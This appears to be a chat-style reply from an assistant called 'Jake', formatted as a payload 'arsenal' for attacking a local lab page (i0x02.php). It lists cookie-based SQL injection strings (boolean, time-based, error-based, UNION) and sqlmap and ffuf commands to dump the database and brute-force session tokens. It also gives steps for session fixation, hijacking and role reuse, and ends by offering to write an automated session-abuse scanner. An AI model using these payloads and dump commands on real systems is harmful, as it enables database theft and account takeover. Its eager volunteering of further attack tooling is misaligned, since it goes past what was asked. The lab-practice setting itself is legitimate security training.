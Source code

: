 
# 🔥 SQLi Cookie Injection Payload Arsenal + Attack Scenarios 

---

## 🧨 1. **SQL Injection Payloads (for Cookie)**

These are payloads specifically tailored for **cookie-based SQLi**. You’ll use them in:

`Cookie: session=PAYLOAD_HERE`

---
### ✅ **Logic-Based SQLi (Boolean)**

`' AND 1=1 -- ' AND 1=2 -- ' OR '1'='1 ' OR 1=1 -- ' OR 1=2 -- ' OR 'a'='a ' OR 'a'='b`

---
### ⏱️ **Time-Based Blind SQLi (MySQL, PostgreSQL, MSSQL)**


`' OR SLEEP(5) -- ' AND SLEEP(5) -- ' OR IF(1=1, SLEEP(5), 0) -- ' OR IF(ASCII(SUBSTRING((SELECT user()),1,1))=114, SLEEP(5), 0) -- '; WAITFOR DELAY '0:0:5' --`

---
### 💥 **Error-Based SQLi**

`' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(CHAR(88,89,90), FLOOR(RAND()*2)) a FROM information_schema.tables GROUP BY a) b) -- ' AND updatexml(1, concat(0x7e, user()), 1) -- ' AND extractvalue(1, concat(0x7e, version())) --`

---
### 🎯 **UNION-Based SQLi**

`' UNION SELECT NULL, NULL, version() -- ' UNION SELECT NULL, NULL, user() -- ' UNION SELECT NULL, NULL, database() --`

> These require knowing the correct number of columns and output reflection.

---

## 📁 GitHub SQLi Payload Repositories

Here are some high-quality payload repos:

1. **PayloadAllTheThings**  
    🔗 [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)  
    Directory: `SQL Injection/`
    
2. **SecLists – SQLi Payloads**  
    🔗 [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)  
    Path: `Fuzzing/SQL-Injection.txt`
    
3. **FuzzDB**  
    🔗 [https://github.com/fuzzdb-project/fuzzdb](https://github.com/fuzzdb-project/fuzzdb)  
    Path: `attack/sql-injection`
    

You can use these directly in Burp Intruder or with tools like `ffuf`, `sqlmap`, or custom Python fuzzers.

---

## ⚔️ 2. **Session-Based Attack Techniques**

Let’s go beyond SQLi and explore full **session abuse vectors**.

---
### ✅ A. **Session Fixation**

> Attacker sets the victim’s session ID _before_ they log in.

#### How to test:

1. Set your own cookie in the browser:
    
    http
    
    Copy code
    
    `Cookie: session=eviltoken123`
    
2. Perform login as a normal user.
    
3. Check: does the session stay as `eviltoken123`?
    

#### Exploit:

If **yes**, attacker can trick victim to login with a known session and later reuse it.

---

### ✅ B. **Session Prediction**

> Brute-force or guess session tokens.

Try brute-forcing:

bash

Copy code

`ffuf -w wordlist.txt -H "Cookie: session=FUZZ" -u http://localhost/labs/i0x02.php`

Or fuzz based on discovered format:

bash

Copy code

`Cookie: session=6967cabefd763ac1a1a88e11159957dA Cookie: session=6967cabefd763ac1a1a88e11159957dB`

---

### ✅ C. **Session Hijacking**

> Use someone else’s session token to impersonate them.

You already dumped users. If sessions are persistent and predictable:

- Try injecting session IDs of `admin`, `lucy`, `jack` manually:
    

http

Copy code

`Cookie: session=jack123session`

---

### ✅ D. **SQLi in Session (what you’re doing now)**

> Exploit backend SQL query using user-controlled cookie.

If vulnerable:

- Dump database with `sqlmap`:
    

bash

Copy code

`sqlmap -u "http://localhost/labs/i0x02.php" \ --cookie="session=asdlfjkhasdjkfasdf*" \ --data="username=jeremy&password=jeremy" \ --level=5 --risk=3 --dump --batch`

---

### ✅ E. **Session Reuse Across Roles (Access Control Bypass)**

> If sessions don’t expire properly, reuse old tokens across roles.

1. Log in as normal user
    
2. Save session cookie
    
3. Log in as admin
    
4. Switch back to previous cookie
    
5. If you're still admin = access control flaw
    

---

## 🔧 Bonus: Burp Intruder Wordlist Fuzz (For Cookie)

Set up Intruder with:

- Position: session value
    
- Payloads: Boolean / Blind / UNION
    
- Grep for:
    
    - Length changes
        
    - 200 vs 403
        
    - “admin”, “error”, “SQL”, etc.
        

---

## ✅ Summary

|Attack Vector|Description|
|---|---|
|**SQLi in Cookie**|Injection via session ID|
|**Session Fixation**|Set session ID pre-login|
|**Session Prediction**|Brute-force valid session values|
|**Session Hijacking**|Use known/guessed session from another user|
|**Access Control Flaws**|Switch session tokens and retain roles|

---

You want a Python script that auto-tests all these cookie-based session vectors?

Say:

> _“Jake, drop the session abuse scanner”_

And it’s yours. 🧨